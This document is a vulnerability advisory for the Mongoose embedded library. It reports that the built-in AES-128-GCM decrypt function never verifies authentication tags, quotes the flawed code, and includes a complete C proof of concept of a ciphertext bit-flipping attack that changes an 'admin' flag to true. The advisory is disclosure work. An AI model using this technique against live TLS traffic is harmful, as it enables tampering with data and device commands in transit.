

# Mongoose TLS AES-128-GCM Authentication Tag Never Verified

## Description

The `mg_aes_gcm_decrypt()` function in `/src/tls_aes128.c` never verifies the GCM authentication tag during decryption, completely bypassing the authentication guarantee of the AEAD cipher. The function's signature does not even accept a tag or associated data (AAD) parameter, and internally hardcodes `tag_len = 0` and `tag_buf = NULL`. By contrast, the corresponding `mg_aes_gcm_encrypt()` function correctly accepts and generates tags with AAD, creating a stark asymmetry where outgoing records are properly tagged but incoming records are never authenticated. Because AES-GCM uses AES-CTR mode for encryption, this allows a man-in-the-middle attacker to perform bit-flipping attacks on any TLS record, modifying encrypted data in transit with byte-level precision, and the device running Mongoose will accept the tampered record as authentic. This renders TLS connections using the built-in TLS implementation with AES-128-GCM completely unauthenticated.

## Details

*   **Vendor**: Cesanta

*   **Product**: Mongoose Embedded Web Server / Networking Library

*   **Affected Version**: 7.20 (and likely all prior versions)

*   **Source Repository**: https://github.com/cesanta/mongoose

*   **Component**: `/src/tls_aes128.c` (mg_aes_gcm_decrypt function, built-in TLS)

*   **Vulnerability Type**:
    * Improper Verification of Cryptographic Signature (CWE-347)
    * Missing Required Cryptographic Step (CWE-325)

   **CVE ID**: Reported to Cesanta

*   **Reported by**: dwbruijn

## Similar Vulnerabilities

* The ChaCha20-Poly1305 cipher suite in the same TLS implementation has the same class of vulnerability: `mg_chacha20_poly1305_decrypt()` in `/src/tls_chacha20.c` never calls `poly1305_calculate_mac()` to verify the Poly1305 authentication tag.

## Vulnerable Code

The vulnerability is a missing authentication step in the decrypt function. The encrypt function correctly generates the GCM tag with AAD, but the decrypt function's signature is incapable of accepting either.

### Encrypt function (`tls_aes128.c:1086-1103`) -- correct

```c
int mg_aes_gcm_encrypt(unsigned char *output,  //
                       const unsigned char *input, size_t input_length,
                       const unsigned char *key, const size_t key_len,
                       const unsigned char *iv, const size_t iv_len,
                       unsigned char *aead, size_t aead_len,              // AAD accepted
                       unsigned char *tag, const size_t tag_len) {        // Tag generated
  int ret = 0;
  gcm_context ctx;

  gcm_setkey(&ctx, key, (unsigned int) key_len);

  ret = gcm_crypt_and_tag(&ctx, MG_ENCRYPT, iv, iv_len, aead, aead_len,  // AAD passed
                          input, output, input_length, tag, tag_len);     // tag generated

  gcm_zero_ctx(&ctx);
  return (ret);
}
```

### Decrypt function (`tls_aes128.c:1105-1123`) -- vulnerable

```c
int mg_aes_gcm_decrypt(unsigned char *output, const unsigned char *input,
                       size_t input_length, const unsigned char *key,
                       const size_t key_len, const unsigned char *iv,
                       const size_t iv_len) {                             // ❌ No AAD, no tag
  int ret = 0;
  gcm_context ctx;

  size_t tag_len = 0;                                                     // ❌ Hardcoded to 0
  unsigned char *tag_buf = NULL;                                          // ❌ Hardcoded to NULL

  gcm_setkey(&ctx, key, (unsigned int) key_len);

  ret = gcm_crypt_and_tag(&ctx, MG_DECRYPT, iv, iv_len, NULL, 0,         // ❌ AAD = NULL
                          input, output, input_length, tag_buf, tag_len); // ❌ tag = NULL, len = 0

  gcm_zero_ctx(&ctx);
  return (ret);
}
```

The function has four compounding flaws:

1. The function signature has 7 parameters versus encrypt's 11, it is missing `aead`, `aead_len`, `tag`, and `tag_len` entirely, making correct tag verification impossible even if the caller wanted it
2. `tag_len` is hardcoded to `0` and `tag_buf` is hardcoded to `NULL`, so `gcm_finish()` at `tls_aes128.c:1008` skips tag computation (`if (tag_len != 0) memcpy(...)`)
3. AAD is passed as `NULL, 0` to `gcm_crypt_and_tag()`, so even if the tag were somehow verified, it would not cover the TLS record header
4. The function always returns 0, there is no error path for authentication failure

The underlying GCM library was designed for this: the comment at `tls_aes128.c:1037-1038` describes a `GCM_AUTH_DECRYPT` companion function that would compute a tag and compare it to the received one. This function was never implemented.

The TLS layer at `tls_builtin.c:574` calls the vulnerable function, stripping the 16-byte tag by subtracting it from the message size. The tag bytes are simply discarded:

```c
  mg_gcm_initialize();
  mg_aes_gcm_decrypt(msg, msg, msgsz - 16, key, 16, nonce, sizeof(nonce));
  // tag stripped, never passed to decrypt
```

Compare with the encrypt call at `tls_builtin.c:488-489`, which correctly passes AAD and tag:

```c
  mg_aes_gcm_encrypt(outmsg, outmsg, msgsz + 1, key, 16, nonce, sizeof(nonce),
                     associated_data, sizeof(associated_data), tag, 16);
```

## PoC

The PoC directly demonstrates the authentication bypass at the cryptographic primitive level. It encrypts a JSON message, performs a bit-flipping attack to change `"admin": false` to `"admin": true`, corrupts the GCM tag with garbage, and shows that decryption succeeds with the modified plaintext.

**PoC** (`poc/tls_gcm_noauth.c`):

```c
// Demonstrates that mg_aes_gcm_decrypt() never verifies the GCM
// authentication tag, allowing an attacker to tamper with
// ciphertext without detection.
//
// The PoC:
//   1. Encrypts a JSON message using mg_aes_gcm_encrypt()
//      (which properly generates the GCM tag and accepts AAD)
//   2. Flips specific ciphertext bits to change "false" -> "true "
//      (AES-CTR mode bit-flipping attack)
//   3. Corrupts the GCM tag with garbage
//   4. Decrypts the tampered ciphertext using mg_aes_gcm_decrypt()
//   5. Shows that decrypt succeeds and returns the modified plaintext
//
// Build:
//   gcc -o tls_gcm_noauth tls_gcm_noauth.c ../mongoose.c -I.. \
//       -DMG_TLS=MG_TLS_BUILTIN -DMG_ENABLE_CHACHA20=0
//
// Run:
//   ./tls_gcm_noauth

#include "mongoose.h"

#include <stdio.h>
#include <string.h>

static void hexdump(const char *label, const uint8_t *data, size_t len) {
  printf("  %s (%zu bytes): ", label, len);
  for (size_t i = 0; i < len && i < 64; i++) printf("%02x", data[i]);
  if (len > 64) printf("...");
  printf("\n");
}

int main(void) {
  // --- Setup: key, nonce, associated data, plaintext ---
  const uint8_t key[16] = {
      0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08,
      0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f, 0x10};
  const uint8_t iv[12] = {
      0xAA, 0xBB, 0xCC, 0xDD, 0xEE, 0xFF, 0x00, 0x11, 0x22, 0x33, 0x44, 0x55};
  uint8_t aad[] = "TLS record header";
  size_t aad_len = sizeof(aad) - 1;
  const char *plaintext = "{\"admin\": false, \"user\": \"guest\"}";
  size_t pt_len = strlen(plaintext);

  printf("[SETUP] Plaintext: %s\n", plaintext);
  printf("[SETUP] The goal: flip \"false\" to \"true \" via bit-flipping\n\n");

  // --- Step 1: Encrypt ---
  mg_gcm_initialize();

  uint8_t ciphertext[256];
  uint8_t tag[16];

  // mg_aes_gcm_encrypt takes AAD and tag buffer -- the correct interface
  int ret = mg_aes_gcm_encrypt(
      ciphertext, (const uint8_t *) plaintext, pt_len,
      key, sizeof(key), iv, sizeof(iv),
      aad, aad_len, tag, sizeof(tag));

  printf("[STEP 1] Encrypted %zu plaintext bytes (ret=%d)\n", pt_len, ret);
  hexdump("Ciphertext", ciphertext, pt_len);
  hexdump("GCM tag", tag, sizeof(tag));

  // --- Step 2: Verify legitimate decryption works ---
  // NOTE: mg_aes_gcm_decrypt does NOT accept tag or AAD parameters.
  //       The tag is simply never checked.
  uint8_t decrypted[256];
  mg_aes_gcm_decrypt(decrypted, ciphertext, pt_len,
                     key, sizeof(key), iv, sizeof(iv));
  decrypted[pt_len] = '\0';

  printf("\n[STEP 2] Legitimate decryption: \"%s\"\n", decrypted);
  printf("  Note: mg_aes_gcm_decrypt() signature has NO tag or AAD parameters\n");

  // --- Step 3: Tamper with the ciphertext (bit-flipping attack) ---
  //
  // AES-GCM uses AES-CTR for encryption: ciphertext[i] = plaintext[i] XOR keystream[i]
  // XOR ciphertext[i] with (old_byte XOR new_byte) to flip the plaintext byte.
  //
  // We change "false" (5 bytes) to "true " (5 bytes) at offset 10 in the
  // plaintext: {"admin": false, ...}
  //                      ^^^^^
  //                      offset 10

  uint8_t tampered[256];
  memcpy(tampered, ciphertext, pt_len);

  size_t offset = 10;
  uint8_t xor_mask[] = {
      'f' ^ 't',  // 0x12
      'a' ^ 'r',  // 0x13
      'l' ^ 'u',  // 0x19
      's' ^ 'e',  // 0x16
      'e' ^ ' ',  // 0x45
  };

  printf("\n[STEP 3] Tampering with ciphertext (bit-flipping attack)\n");
  printf("  Target: bytes %zu-%zu (\"false\" -> \"true \")\n", offset, offset + 4);
  printf("  XOR mask: ");
  for (size_t i = 0; i < sizeof(xor_mask); i++) printf("%02x ", xor_mask[i]);
  printf("\n");

  for (size_t i = 0; i < sizeof(xor_mask); i++) {
    tampered[offset + i] ^= xor_mask[i];
  }

  // Also corrupt the GCM tag to prove it's never checked
  uint8_t corrupted_tag[16];
  memset(corrupted_tag, 0xFF, sizeof(corrupted_tag));
  printf("  Corrupting GCM tag with 0xFF bytes\n");
  printf("  (Won't matter because decrypt can't even receive a tag)\n");

  hexdump("Tampered ciphertext", tampered, pt_len);
  hexdump("Corrupted tag", corrupted_tag, sizeof(corrupted_tag));

  // --- Step 4: Decrypt the tampered ciphertext ---
  // mg_aes_gcm_decrypt has no tag parameter -- it CANNOT verify the tag
  // even if the caller wanted it to. The function signature makes
  // authentication impossible.
  uint8_t tampered_dec[256];
  ret = mg_aes_gcm_decrypt(tampered_dec, tampered, pt_len,
                           key, sizeof(key), iv, sizeof(iv));

  printf("\n[STEP 4] Decrypting tampered ciphertext...\n");
  printf("  mg_aes_gcm_decrypt() returned: %d (always returns 0)\n", ret);

  tampered_dec[pt_len] = '\0';
  printf("  Decryption ACCEPTED the tampered ciphertext!\n");

  // --- Step 5: Show the result ---
  printf("\n=== Result ===\n");
  printf("  Original plaintext:  %s\n", plaintext);
  printf("  Tampered plaintext:  %s\n", (char *) tampered_dec);
  printf("  Tag was corrupted:   YES (all 0xFF)\n");
  printf("  Tag was checked:     NO (decrypt has no tag parameter)\n");
  printf("  AAD was checked:     NO (decrypt has no AAD parameter)\n");

  bool admin_flipped = strstr((char *) tampered_dec, "true") != NULL;

  if (admin_flipped) {
    printf("We changed {\"admin\": false} to {\"admin\": true }\n");
    printf("with a corrupted GCM tag, and it was accepted.\n");
    return 0;
  }

  printf("\nBit-flip did not produce expected result.\n");
  return 1;
}
```

### Triggering the vulnerability

Create a `poc` directory in the mongoose repo directory. Copy `tls_gcm_noauth.c` into the `poc` directory.

```bash
# Build PoC
cd poc
gcc -o tls_gcm_noauth tls_gcm_noauth.c ../mongoose.c -I.. \
    -DMG_TLS=MG_TLS_BUILTIN -DMG_ENABLE_CHACHA20=0

# Run
./tls_gcm_noauth
```

**Output:**



We flipped 5 bytes in the ciphertext to change `"admin": false` to `"admin": true`, overwrote the GCM tag with `0xFF`, and `mg_aes_gcm_decrypt()` accepted the tampered ciphertext without any error.

## Potential Impact

The missing GCM tag verification completely eliminates the authentication guarantee of TLS. Every TLS connection using built-in TLS with AES-128-GCM provides **encryption without authentication**, which is a well-known broken configuration.

**Direct consequences:**

*   **Bit-flipping attacks**: AES-GCM uses AES-CTR mode for encryption, so XORing a byte in the ciphertext flips the corresponding plaintext byte. An attacker who knows (or can guess) the plaintext at any position can change it to any desired value. This enables surgical modification of HTTP headers, JSON fields, MQTT payloads, or any other application data flowing over TLS.

*   **Selective data modification**: Unlike attacks that corrupt data randomly, CTR mode bit-flipping gives the attacker byte-level precision. An attacker can change `"role":"user"` to `"role":"root"`, flip boolean flags, modify numeric values, or alter URLs -- all within an "encrypted" TLS connection.

*   **Credential and session hijacking**: If the Mongoose device sends authentication tokens, API keys, or session identifiers over TLS, an attacker can modify these in transit to substitute their own values, hijacking authenticated sessions.

*   **Malicious command injection**: For IoT devices receiving commands over TLS (MQTT, HTTP APIs), an attacker can modify command payloads to control physical actuators, change device configuration, or trigger dangerous operations -- while the device believes it is communicating securely with its legitimate server.

*   **False sense of security**: Applications relying on TLS for data integrity have zero integrity protection. The connection appears encrypted (and confidentiality is preserved against passive observers) but provides no guarantee that data has not been modified by an active attacker.
